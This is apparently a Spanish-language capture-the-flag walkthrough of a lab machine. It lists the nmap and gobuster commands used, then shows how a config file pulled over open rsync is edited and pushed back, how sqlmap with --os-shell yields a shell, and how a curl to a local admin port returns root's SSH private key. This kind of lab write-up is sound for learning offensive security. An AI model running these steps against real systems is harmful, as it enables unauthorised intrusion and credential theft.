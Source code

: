 ### Tags: `rsync` `sqlmap` `getcap`

# Escaneo (*22, 80, 139, 445*)

```css
sudo nmap -p- --open -sSCV --min-rate 4000 -vvv -n -Pn <IP> -oN escaneo
````

![image](https://github.com/user-attachments/assets/b5443b93-8748-44d6-9843-71d2a06dde6c)


# Port80 / Gobuster

Como vimos arriba en el reporte del escaneo la web es un *ubuntu Default Page* por ende tiramos de Gobuster

```ruby
gobuster dir -u http://<IP>/ -t 100 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x txt,php,html --no-error
```

Encontramos este directorio:

![image](https://github.com/user-attachments/assets/7e47c4c7-3b94-4b8d-95b9-3e2c77e181cd)

Si vamos en la web nos dice **403 Forbidden** y cuando hacemos `Ctrl + u` nos dice esto otro:

![image](https://github.com/user-attachments/assets/0aba8e1a-53d9-4dff-9216-6ee95cd55637)

Esto significa que actualmente estamos en el **entorno de producción** y tenemos que encontrar una manera de ir al entorno de producción. Para ello podemos consultar otros servicios. Entonces tenemos ``Rsync y 'Rsync`` se usa para **transferir** y **sincronizar** archivos entre una computadora y un disco duro externo y entre computadoras en red comparando los tiempos de modificación y los tamaños de los archivos. 
Lo que vamos a hacer ahora es verificar loa archivos del directorio `conf` y se hace de esta manera:

```ruby
 rsync -av rsync://<IP>/
```

![image](https://github.com/user-attachments/assets/3b03ee10-1fbf-4ee4-822f-ae331a0319bd)

Ahora nos metemos dentro de `Conf`

```ruby
rsync -av rsync://<IP>/Conf
```

![image](https://github.com/user-attachments/assets/143f82fd-de88-4b48-8b9e-cf4534e8d426)

Ahora lo que hacemos es **copiarnos** todos los archivos a nuestra máquina y verifiquemos si podemos obtener algo

```ruby
rsync -av rsync://<IP>/Conf ./mi_Conf
```

![image](https://github.com/user-attachments/assets/48cd2430-dead-4aeb-a32d-14d8672f6d84)

Observando los distintos archivos, en `webapp.ini` encontramos credenciales de un **TomCat** que esta en `prod`

![image](https://github.com/user-attachments/assets/1a9bac4d-f2b5-46f5-b887-523659d05f1f)

Entonces lo que hacemos es cambiarlo a `dev` y enviarlo otra ves con el archivo cambiado 

```ruby
nano webapp.ini   #cambiar a dev
rsync -av webapp.ini rsync://<IP>/Conf/webapp.ini
```

![image](https://github.com/user-attachments/assets/073bb231-b8ba-46e9-911b-e5f0176fd0f5)

Ahora si recargamos la pagina en `/admin` podemos visualizar la web y no nos da el 403 de antes

![image](https://github.com/user-attachments/assets/a40d9cf5-1edc-48e5-9075-007c15add7d8)

# SQLMap

Capturamos la petición con Burp y lo guardamos para jugar con `sqlmap`
- `-dbs` enumere todas las bases de datos disponibles
- `--risk 3` nivel de riesgo (técnicas más agresivas y potencialmente más ruidosas)
- `--level 5` nivel de profundidad de las técnicas de explotación
- `--os-shell` Le indica a SQLmap que intente obtener un shell de sistema operativo en el servidor remoto

```ruby
sudo sqlmap -r SQL_burp -dbs --risk 3 --level 5 --os-shell 
```

Una ves nos dio la `os-shell` no entablamos una ReverShell de esta forma

![image](https://github.com/user-attachments/assets/8b500aaa-a9af-4bbd-afab-6b09be1bf00c)

![image](https://github.com/user-attachments/assets/d307da36-fa03-473f-bbb4-2f8cabe9bbcd)


# Escalada **ROOT**

Tenemos la primera flag

![image](https://github.com/user-attachments/assets/63efa394-6cdc-4d36-8188-f87a3b2b0f7f)

Haciendo un `getcap -r / 2>/dev/null` tenemos capibility (**cap_net_raw+ep**) indica que el archivo tiene el bit de ejecución elevado (**ep**) y la capibility **cap_net_raw** asignada.

![image](https://github.com/user-attachments/assets/8acaf11c-26f0-49a6-b899-ea459a9bee17)

Lo que hacemos es tirar un `LinPeas` y observamos esto:

![image](https://github.com/user-attachments/assets/23a8f327-409a-4951-9962-67426f514288)

Entonces si hacemos un `curl http://127.0.0.1:1027/?admin=ScadfwerDSAd_343123ds123dqwe12` obtenemos la id_rsa de `root`

![image](https://github.com/user-attachments/assets/94254f5a-5311-43d2-bbc1-c55a0b4e42fb)

Nos conectamos por **ssh** y listo

![image](https://github.com/user-attachments/assets/13b21ae1-741e-4218-8b9f-0c6ed31799f3)
![image](https://github.com/user-attachments/assets/a6783f38-646c-4412-9082-5e6d97c8b71c)







